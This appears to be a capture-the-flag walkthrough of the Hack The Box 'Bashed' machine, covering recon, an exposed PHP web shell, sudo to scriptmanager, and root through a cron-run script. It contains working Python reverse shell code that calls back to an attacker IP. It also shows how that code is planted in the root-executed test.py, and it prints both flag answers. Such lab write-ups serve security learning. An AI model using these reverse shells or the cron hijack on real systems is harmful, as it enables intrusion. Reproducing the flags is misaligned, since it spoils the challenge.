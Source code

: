 # Bashed

<div align="left">

<figure><img src="../.gitbook/assets/image.png" alt="" width="75"><figcaption><p>hackthebox.com - © HACKTHEBOX</p></figcaption></figure>

</div>

🔗 [Bashed](https://www.hackthebox.com/machines/bashed)

### Task 1 - Deploy the machine

🎯 Target IP: `10.129.236.215`

Create a directory on the Desktop with the machine's name, and inside this directory, create another directory to store the materials and outputs needed to run the machine, including the scans made with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
echo "10.129.236.215 bashed.htb" >> /etc/hosts

mkdir -p htb/bashed.htb
cd htb/bashed.htb
mkdir {nmap,content,exploits,scripts}
# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 bashed.htb
PING bashed.htb (10.129.236.215) 56(84) bytes of data.
64 bytes from bashed.htb (10.129.236.215): icmp_seq=1 ttl=63 time=67.3 ms
64 bytes from bashed.htb (10.129.236.215): icmp_seq=2 ttl=63 time=64.2 ms
64 bytes from bashed.htb (10.129.236.215): icmp_seq=3 ttl=63 time=79.4 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target should be a \*nix system, while Windows systems usually have a TTL of 128 secs.

### 2.1 - How many open TCP ports are listening on Bashed??

```bash
nmap -p0- -sS -Pn -vvv bashed.htb -oN nmap/tcp_port_scan
```

```bash
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sS</td><td>SynScan</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there's 1 open TCP port on the machine: 80

{% hint style="info" %}
1
{% endhint %}

### 2.2 - What is the relative path on the webserver to a folder that contains phpbash.php??

Now, we take more precise scan utilizing -sCV flags to retrieve versioning services and test common scripts.

```bash
nmap -p80 -sS -Pn -n -v -sCV -T4 bashed.htb -oG nmap/port_scan
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
```

#### Port 80

Browsing webserver on port 80 via browser, that contains a web php bash.

<figure><img src="../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>

Analyzing source code we don't found nothing of interesting, than we can discover more info about website using whatweb and do directory enumeration using gobuster.

```bash
whatweb bashed.htb
http://bashed.htb [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.236.215], JQuery, Meta-Author[Colorlib], Script[text/javascript], Title[Arrexel's Development Site]
```

```
gobuster dir -u http://bashed.htb -w /usr/share/wordlists/dirb/common.txt
```

<div align="left">

<figure><img src="../.gitbook/assets/image (303).png" alt=""><figcaption></figcaption></figure>

</div>

Very good, we've found interisting web dir such as /dev and /uploads, exploring them we can answer at our question.

<figure><img src="../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
/dev
{% endhint %}

### 2.3 - What user is the webserver running as on Bashed?

The /dev directory contains two php webshell, more probably phpbash.min.php is a minimal bash or beta version while phpbash.php is full version.

In both cases, we immediately observe that the user in use is the same.

<figure><img src="../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
www-data
{% endhint %}

### Task 3 - Find user flag

### 3.1 - Submit the flag located in the arrexel user's home directory.

Navigating into file system is more simple discover users home directories and arrexel user's flag.

<figure><img src="../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>

<details>

<summary>🚩 Flag 1 (user.txt)</summary>

b2e6af7c997eba350b6cf95ad88240cb

</details>

### 3.2 - www-data can run any command as a user without a password. What is that user's username?

Using sudo -l we can see that www-data can run all commands on bashed as a user scriptmanager.

<figure><img src="../.gitbook/assets/image (307).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
scriptmanager
{% endhint %}

### 3.3 - What folder in the system root can scriptmanager access that www-data could not?

Going into root dir / we can launch ls -l and see all permissions regarding directories.

<div align="left">

<figure><img src="../.gitbook/assets/image (308).png" alt=""><figcaption></figcaption></figure>

</div>

{% hint style="info" %}
/scripts
{% endhint %}

### 3.4 - What is filename of the file that is being run by root every couple minutes?

"Every couple minutes" is an hint to understand possibile route.

But, we decide to give a reverse shell on our attacker machine to optimize our work, to do it we need to make us in listening mode using netcat `nc -lvnp 1339` and execute a python script on web shell.

```python
export RHOST="10.10.14.6";export RPORT=1339;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

<div align="left">

<figure><img src="../.gitbook/assets/image (309).png" alt=""><figcaption></figcaption></figure>

</div>

Remembering the question's hint and the last task, where only the scriptmanager can access the /scripts folder, we can access it as the scriptmanager user spawning a a bash shell

```bash
sudo -u scriptmanager python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Trying to use sudo -l commands, the system asks us for a password that we don't know.

Now, we've permissions access to /scripts dir, where we found two files:

<div align="left">

<figure><img src="../.gitbook/assets/image (310).png" alt=""><figcaption></figcaption></figure>

</div>

Additionally, the program `test.py` appears to be scheduled to execute almost every minute, based on the last access time of `test.txt`. From this, we can infer that there may be a cron job owned by root that automatically runs `test.py` every minute. We can confirm this by renaming `test.txt` (e.g., to `test.txt.old`) and observing that a new `test.txt` file is created after a minute or so."

This is useful because we can modify the contents of `test.py` to include reverse shell code, which would then execute with root privileges.

Next, let's create a new file named `test.py` on our Kali box and insert the same reverse shell code we used earlier. We'll then transfer this file to the target 'Bashed' machine.

```python
echo "import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('10.10.14.6',4444));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(['/bin/sh','-i']);" > test.py
```

{% hint style="info" %}
test.py
{% endhint %}

### Task 4 - Find root flag

### 4.1 - Submit the flag located in root's home directory.

Immediately before or at least within two minutes we listen with netcat on the attacker machine, and we obtain a shell with root permissions.

<div align="left">

<figure><img src="../.gitbook/assets/image (313).png" alt=""><figcaption></figcaption></figure>

</div>

<details>

<summary>🚩 Flag 2 (root.txt)</summary>

40ca417765210f39b12b2d78813ebcfe

</details>
